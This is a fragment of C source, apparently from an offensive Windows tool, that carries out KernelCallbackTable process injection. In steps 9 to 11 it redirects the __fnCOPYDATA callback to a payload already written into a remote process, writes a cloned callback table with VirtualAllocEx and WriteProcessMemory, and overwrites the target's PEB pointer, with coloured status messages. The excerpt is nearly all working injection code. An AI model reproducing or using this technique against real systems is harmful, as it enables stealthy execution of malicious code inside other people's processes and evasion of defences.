         }
        printf( COLOR_GREEN_BOLD "\t[+] Payload written to remote buffer at: 0x%p\n" COLOR_RESET, remotebuf );
    
        // Step 9: Modify __fnCOPYDATA in the KernelCallbackTable
        printf( COLOR_YELLOW_BOLD "\t[*] Modifying __fnCOPYDATA to point to payload...\n" COLOR_RESET );
        CCC.__fnCOPYDATA = ( ULONG_PTR ) remotebuf;
        printf( COLOR_BLUE_BOLD "\t\t[*] __fnCOPYDATA now points to: 0x%p\n" COLOR_RESET, remotebuf );
    
        // Step 10: Clone modified KernelCallbackTable
        printf( COLOR_YELLOW_BOLD "\n\t[*] Cloning modified KernelCallbackTable...\n" COLOR_RESET );
        LPVOID cloneCCC = VirtualAllocEx(
            hProcess,
            NULL,
            sizeof( CCC ),
            MEM_RESERVE | MEM_COMMIT,
            PAGE_READWRITE
        );
        if ( !cloneCCC )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to allocate memory for cloned KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        if ( !WriteProcessMemory(
            hProcess,
            cloneCCC,
            &CCC,
            sizeof( CCC ),
            NULL
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to write cloned KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_GREEN_BOLD "\t[+] Cloned KernelCallbackTable written at: 0x%p\n" COLOR_RESET, cloneCCC );
    
        // Step 11: Update PEB KernelCallbackTable to cloned KernelCallbackTable
        printf( COLOR_YELLOW_BOLD "\t[*] Updating PEB with cloned KernelCallbackTable...\n" COLOR_RESET );
        if ( !WriteProcessMemory(
            hProcess,
            ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ),
            &cloneCCC,
            sizeof( PVOID ),
            &bytesRead
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to update PEB KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_GREEN_BOLD "\t[+] PEB KernelCallbackTable updated successfully!\n" COLOR_RESET );
    